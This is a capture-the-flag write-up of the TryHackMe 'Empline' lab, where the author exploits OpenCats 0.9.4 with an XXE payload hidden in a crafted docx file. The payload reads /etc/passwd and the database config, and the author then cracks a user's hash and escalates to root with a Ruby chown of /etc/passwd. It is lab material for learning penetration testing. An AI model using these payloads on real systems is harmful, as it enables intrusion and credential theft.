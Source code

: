 # Empline TryHackMe Writeup
### Level: `Medium` | OS: `Linux`
![logo](1.png)

## Scanning
We run nmap on all ports with scripts and software versions.
![](2.png)

## Enumeration
We access website and review all zones of site.
![](3.png)

We list a subdomain that appears to lead to an employee area.
![](4.png)

We found deployed an Opencats with version 0.9.4.
![](5.png)

We launch "**dirsearch**", we list a directory where it shows us a panel that we can access without authentication.
![](26.png)

### Deficient control panel to authorization control
![](27.png)

## Exploitation
We search exploits and found this notice:
https://www.opencats.org/news/2019/july/

### Create with python docx_

```python
#!/usr/bin/env python
from docx import Document
document = Document()
paragraph = document.add_paragraph('m3n0sd0n4ld')
document.save('m3n0s.docx')
```
### Create m3n0s.docx
![](11.png)

Unzip the file and edit the "**document.xml**".
![](12.png)

```XML
<?xml version='1.0' encoding='UTF-8' standalone='yes'?>
<!DOCTYPE payload [<!ENTITY payload SYSTEM "/etc/passwd"> ]>
```

We insert the following line (in orange color) and modify the text to "**&payload**".
![](13.png)

We see that the proof of concept works: .
![](14.png)

So now we read the "config.php" file where the database credentials are stored (remember that we have access to the service on port 3306).

```XML
<?xml version='1.0' encoding='UTF-8' standalone='yes'?>
<!DOCTYPE payload [<!ENTITY payload SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&payload;</data>
```
We will get the content of the file in base64, so we decode and we will have the credentials in plain text.
![](17.png)

### Connect to the database
![](18.png)

We select the table "*users*" and we will obtain the encrypted password of the user "*george*" (this one has a system user ;))
![](19.png)

We use the "**hashes.com**" website to obtain the flat password through its hash.
![](25.png)

### Read user.txt flag
With the password in plain text, we connect through the **SSH** service and read the "*user.txt*" file.
![](20.png)

## Privilege Escalation
After an enumeration, "**linpeas.sh**" shows us that we have permissions with the "**ruby**" binary to modify the binary user due to a deficiency in capabilities.
![](21.png)

We create a ruby file that we will use to modify the user of the file so we can edit it with our user.
![](22.png)

```ruby
file = File.new("/etc/passwd", "r")
file.chown(1002, 1002)
```

Edit the file "*/etc/passwd*" and create the user "*m3n0sd0n4ld*", add the password hash and give it the root suid and save the file.
![](23.png)

We authenticate with the user "*m3n0sd0n4ld*", we see that we are root and we read the root.txt flag
![](24.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='43' align='center'> [@David_Uton](https://twitter.com/David_Uton)
